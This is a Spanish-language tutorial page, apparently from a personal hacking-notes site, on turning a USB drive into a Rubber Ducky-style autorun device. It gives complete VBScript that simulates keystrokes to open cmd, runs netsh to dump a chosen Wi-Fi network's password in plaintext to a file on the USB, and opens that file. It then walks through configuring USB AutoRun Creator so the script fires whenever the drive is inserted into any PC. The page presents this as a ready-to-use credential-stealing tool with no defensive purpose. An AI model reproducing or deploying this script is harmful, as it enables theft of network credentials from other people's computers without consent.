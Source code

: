 # Crear USB AutoRun (Emular Rubber Ducky)

Si queremos emular el comportamiento de un USB `Rubber Ducky`, que basicamente cuando insertemos el USB en algun PC se ejecute el script que nosotros hayamos programado de forma automatica, esto se consigue haciendo creer al sistema operativo que se esta conectando un teclado y con el script enviar tecla por tecla lo que se quiere escribir o hacer en el S.O. como si fuera un teclado.

Lo que primero tendremos que hacer sera instalar el siguiente programa llamado `AutoRun Creator`:

URL = [Download AutoRun Creator](https://usb-autorun-creator.softonic.com)

Una vez que hayamos descargado el ejecutable llamado `usbac_setup_smof.exe`, solo tendremos que seguir los pasos de instalacion de forma normal, cuando se haya instalado tendremos que buscar en `windows` lo siguiente:

```
USB AutoRun Creator - Editor
```

Ejecutamos esa aplicacion para que se nos habra el programa para crear el USB `AutoRun`, pero antes de seleccionar las opciones, crearemos un script basico para dumpear la informacion de la `red wifi` seleccionada + la contraseña en texto plano de forma automatica:

## Crear Script VBS

> wifiHack.vbs

```vbs
Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' 👉 Nombre de la red Wi-Fi y archivo de salida
Dim wifiName
wifiName = "<WIFI_NAME>"
Dim notepadFileName
notepadFileName = "dead.txt"

' 👉 Verifica permisos de administrador
If Not objShell.Run("cmd.exe /c net session >nul 2>&1", 0, True) = 0 Then
    MsgBox "Por favor, ejecuta este script con permisos de administrador.", vbCritical, "Error de permisos"
    WScript.Quit
End If

' 👉 Ruta donde se guardará el archivo (D:\dead.txt)
Dim outputFilePath
outputFilePath = "<LETRA_DE_LA_UNIDAD>:\" & notepadFileName

' 👉 Crear el objeto para enviar teclas
Set x = CreateObject("WScript.Shell")

' 👉 Abrir la ventana de comandos (cmd)
x.SendKeys "^{ESC}"  ' Abre el menú de inicio
WScript.Sleep(1000)

x.SendKeys "cmd"  ' Escribe 'cmd' para buscar el símbolo del sistema
WScript.Sleep(1000)

x.SendKeys "{ENTER}"  ' Ejecuta el comando
WScript.Sleep(1000)

' 👉 Construir el comando para obtener información de la red
x.SendKeys "netsh wlan show profiles """ & wifiName & """ key=clear > """ & outputFilePath & """"
WScript.Sleep(1000)

' 👉 Ejecutar el comando (simula presionar Enter)
x.SendKeys "{ENTER}"
WScript.Sleep(2000)

' 👉 Salir de la ventana de comandos (cmd)
x.SendKeys "exit"
WScript.Sleep(500)
x.SendKeys "{ENTER}"
WScript.Sleep(1000)

' 👉 Verifica si el archivo de salida se ha creado en D:\
If objFSO.FileExists(outputFilePath) Then
    ' 👉 Abre el archivo en Notepad
    objShell.Run "notepad.exe """ & outputFilePath & """", 1, False
Else
    MsgBox "No se pudo generar el archivo: " & outputFilePath, vbCritical, "Error"
End If
```

Lo unico que tendremos que cambiar sera la parte de `<WIFI_NAME>` donde tendremos que sustituirlo por el nombre del `wifi` que queramos sacar info y en concreto la contraseña, despues tambien tendremos que cambiar la parte donde pone `<LETRA_DE_LA_UNIDAD>` por la letra de la unidad del USB que es donde se depositara el archivo `dead.txt` donde estara toda la informacion de la `red wifi` con su contraseña.

> EJEMPLO:

```
"<LETRA_DE_LA_UNIDAD>" = "D:\"

"<WIFI_NAME>" = "wifitest"
```

Una vez echo esto lo guardaremos en el USB y por si acaso crearemos el archivo `dead.txt` en el USB tambien.

## Crear USB AutoRun

Llendo donde estabamos en la interfaz del `USB AutoRun Creator` de la aplicacion, tendremos que darle a `Select` en la primera opcion:

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y en este seleccionaremos el archivo `wifiHack.vbs` que esta en el USB.

Despues en la segunda opcion seleccionaremos `Browser`:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y seleccionaremos la letra de la unidad del USB, seguidamente le daremos a la opcion `USB Drive`:

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y le daremos a `OK`.

Una vez configurado todo solo tendremos que darle al boton llamado `Create` y esto nos creara todo para que el USB inicie de forma automatica el el script que seleccionamos y que el S.O. se piense que el USB es un teclado, para que asi se ejecute el script, una vez que se termine de ejecutar el script, veremos que la informacion del `wifi` y la contraseña estara en ese TXT.

Ya no solo podremos ejecutar ese script, si no que podremos programar otros scripts para que hagan lo que queramos.

Solo tendremos que sacar el USB y volverlo a insertar para que se ejecute el script de forma automatica.

